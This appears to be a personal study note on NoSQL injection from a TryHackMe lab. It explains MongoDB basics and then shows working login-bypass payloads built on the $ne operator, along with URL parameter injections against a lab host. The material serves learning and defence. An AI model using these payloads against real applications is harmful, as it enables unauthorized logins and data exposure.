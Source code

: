 # NoSQL Injection

## NoSQL Intro
Non-relational database, commonly used for big data and IoT due to fast queries, scalable, and flexible data structure.

**Collection** = tables or views in MySQL
**Document** = rows in MySQL
**Fields** = columns in MySQL

## MongoDB
Source: https://tryhackme.com/room/adventofcyber3

Stored in format called BSON, visually similar and support JSON.

Operators that being used:
`$and` - AND
`$or` - OR
`$eq` - equal
`$ne` - not equal
`$gt` - greater than
`$where` - matches records based on Javascript condition
`$exists` - matches records that have a certain field
`$regex` - matches records that satisfy certain regular expressions.

### Intro
```shell-session
mongo
show databases
```

Use or create new database
```shell-session
use AoC3
```

Create collection
```shell-session
db.createCollection("users")
db.getCollectionNames();
```

Add document
```shell-session
db.users.insert({id:"1", username: "admin", email: "admin@thm.labs", password: "idk2021!"})

db.users.insert({id:"2", username: "user", email: "user@thm.labs", password: "password1!"})
```

Update document
```shell-session
db.users.update({id:"2"}, {$set: {username: "tryhackme"}});
```

Remove document
```shell-session
db.users.remove({'id':'2'})
```

Remove collection
```shell-session
db.users.drop()
```

### JSON Objects
**Injection to login as admin**, using `users` collections the command can be `db.users.find({query})` or `db.users.findOne({query})` . Null reply is received when providing the wrong credentials.
```shell-session
> db.users.findOne({username: "admin", password: {"$ne":"xyz"}})
{
        "_id" : ObjectId("6183ef6292dea43d75f0c820"),
        "id" : "1",
        "username" : "admin",
        "email" : "admin@thm.labs",
        "password" : "adminpass"
}
```
Injection of JSON objection `{"$ne": "xyz"}` that returns True because the password of admin is not xyz.

**Injection to login as non admin**
```shell-session
> db.users.findOne({username:{"$ne":"admin"},password:{"$ne":"xyz"}})
{
        "_id" : ObjectId("6183ef5b92dea43d75f0c81f"),
        "id" : "2",
        "username" : "user",
        "email" : "user@thm.labs",
        "password" : "password1!"
}
```
Logged in as non admin user, because the injection in username and password.

### GET and POST Request
Look for entry point that doesn't sanitize input, then understand how the web passes the request to the database. YOur injection must match the `KEY:VALUE` in JSON objection.

```scheme
http://example.thm.labs/search?username=admin&role[$ne]=user
```

```scheme
http://example.thm.labs/search?username=ben&role=user
```

List usernames that have a user role, except ben
```scheme
http://example.thm.labs/search?username[$ne]=ben&role=user
```

![](attachments/11ebe0504325632b2690ebb147fdcf58.png)

